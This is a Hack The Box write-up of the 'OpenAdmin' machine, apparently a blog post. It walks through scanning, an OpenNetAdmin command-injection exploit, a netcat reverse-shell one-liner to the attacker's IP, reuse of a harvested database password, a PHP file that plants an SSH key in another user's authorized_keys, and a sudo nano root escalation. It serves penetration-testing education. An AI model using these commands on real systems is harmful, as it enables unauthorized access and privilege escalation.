 ```yaml
---
layout: post
title:  "OpenAdmin"
date:   2020-02-07 18:30:00 +0100
categories: hackthebox
---
```

OpenAdmin
===
![OpenAdmin](https://raw.githubusercontent.com/lassa97/lassa97.github.io/master/_site/assets/images/OpenAdmin/OpenAdmin.png)

---
### Nmap
We start with an `nmap` scan:

> root@misty:~# nmap -sV -sC -oA OpenAdmin 10.10.10.171

```
# Nmap 7.80 scan initiated Wed Jan  8 18:44:48 2020 as: nmap -sV -sC -oA OpenAdmin 10.10.10.171
Nmap scan report for 10.10.10.171
Host is up (0.069s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan  8 18:46:21 2020 -- 1 IP address (1 host up) scanned in 92.99 seconds
```

We find `ssh` on port 22 and `http` on port 80.

---

### Web Enumeration
We use `gobuster` to find some useful directories that we can exploit:

> root@misty:~# gobuster dir -u http://10.10.10.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o OpenAdmin.dir

```
===============================================================
[+] Url:            http://10.10.10.171
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/01/08 17:53:21 Starting gobuster
===============================================================
/music (Status: 301)
/artwork (Status: 301)
===============================================================
2020/01/08 18:51:04 Finished
===============================================================
```
Going to http://10.10.10.171/music/ shows a login button. We click it and we are redirected to [this](http://10.10.10.171/ona/). It is the OpenNetAdmin Tool running the 18.1.1 version.

---

### Command Injection
Doing some research, we find there is a Remote Code Execution vulnerability (OpenNetAdmin 18.1.1 - Command Injection Exploit).

We take the [source code](https://packetstormsecurity.com/files/155406/opennetadmin1811-exec.txt) and we create a reverse shell. First, we open a local port and then we write this command as input of the exploit.

> root@misty:~# nc -lvnp 51111
> root@misty:~# ./exploit.sh http://10.10.10.171/ona/
> $ mkfifo /tmp/flipper; nc 10.10.15.182 51111 < /tmp/flipper | /bin/sh > /tmp/flipper; rm /tmp/flipper;

---

### Jimmy

After some enumeration, we find some creds (__jimmy:n1nj4w4rri0R!__) in */opt/ona/www/local/config/database_settings.inc.php*
Also, we find two users (__jimmy__ and __joanna__) and a common group (__internal__).
Now, we connect via `ssh` using the creds of __jimmy__:

> root@misty:~# ssh jimmy@10.10.10.171

---

### Joanna

Once we are logged, we find three local ports open.

> jimmy@openadmin:~$ netstat -nputa

```
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      -
```

We have the port 53 (*DNS*), the port 3306 (*MySQL*) and the port 52846. Then, we find under */var/www* directory a folder called __internal__. The user __jimmy__ is the owner and the group __internal__ has all the permissions in that directory. Inside it, we find the source code of the *PHP*s that are served in the port 52846.
1) __index.php__: Has a login form with the SHA512 of another pass of __jimmy__.
2) __main.php__: Displays the private key of __joanna__ using *shell_exec()*.
3) __logout.php__: A simple logout.

We decide to create a `ssh` tunnel to display it in our browser:

> root@misty:~# ssh jimmy@10.10.10.171 -L 55555:127.0.0.1:52846

And going to http://127.0.0.1:55555, we see the login form. Because we have all the permissions in the __internal__ directory, we've decide to create our own PHP that adds a public key to the *authorized_keys* of __joanna__ using the *shell_exec()* function to execute commands.

__flipper.php__

```php
<?php
    shell_exec("cat /var/www/internal/fake.txt >> /home/joanna/.ssh/authorized_keys");
    $keys = shell_exec("cat /home/joanna/.ssh/authorized_keys");
    echo "<pre>" . $keys . "</pre>";
 ?>
```

Then, we generate a new `ssh` key using `ssh-keygen` and we paste the public key inside *fake.txt*. We change the group own of *flipper.php* to __internal__ using `chgrp`. After that, we go to http://127.0.0.1:55555/flipper.php and we can see that we have added our public key to the *authorized_keys* of __joanna__.

Finally, we login with `ssh` using our private key and we have the user flag.

> root@misty:~# ssh joanna@10.10.10.171 -i OpenAdmin.key
> joanna@openadmin:~$ cat /home/joanna/user.txt
`HTB{c9b2cf07d40807e62af62660f0c81b5f}`

---

### Root
We are going to use [GTFOBins](https://gtfobins.github.io/) to gain privilegies. We find that __joanna__ can edit the file */opt/priv* owned by __root__ without password.

> joanna@openadmin:~$ sudo -l
`sudo /bin/nano /opt/priv`

Following the instructions for `nano`, we have our root shell and we can own the root flag.

> root@openadmin:~# cat /root/root.txt
`HTB{2f907ed450b361b2c2bf4e8795d5b561}`
